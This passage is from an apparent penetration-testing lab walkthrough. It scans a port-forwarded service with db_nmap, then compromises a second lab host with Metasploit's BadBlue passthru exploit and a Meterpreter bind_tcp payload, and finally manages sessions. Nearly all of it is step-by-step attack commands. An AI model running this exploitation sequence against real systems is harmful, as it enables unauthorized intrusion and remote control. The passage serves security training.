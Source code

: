 I'll use the `db_nmap` command to perform the scan within MSF console.

`-sS`: Perform a SYN scan.

`-sV`: Perform a service version detection scan.

`-p`: on port 1234. Because we forwarded port 80 on victim 2 to our port 1234 on the Kali instance. So we specified port 1234 locally.

And then because we are performing the scan on the Kali system, we'll say `localhost` because we are performing the scan on our IP address.

```
db_nmap -sS -sV -p 1234 localhost
```

It's successfully scanned the forwarded port. On our Kali Linux IP on port 1234 it provides us with the service version here for the service that's running on victim 2 on port 80. The only reason we performed port forwarding is so that we can identify what service is running on victim 2 on port 80.

You can also verify this that is the case by navigating to localhost.

```
127.0.0.1:1234
```

```
search badblue
use exploit/windows/http/badblue_passthru
```

We'll need to change the payload to a bind_tcp Meterpreter payload. As a reverse connection will not be possible.

```
set payload windows/meterpreter/bind_tcp
show options
```

Set RHOSTS to victim 2's IP.

```
set RHOSTS 10.2.27.187
```

We are targeting port 80, not the locally forward post because we have the route added within MSF console.

I'm going to set LPORT to a different port because we are currently have a session that's established on port 4444.

```
set LPORT 4433
exploit
meterpreter > sysinfo
```

Put this in the background.

List out my sessions.

```
sessions -n victim-2 -i 2
sessions
```
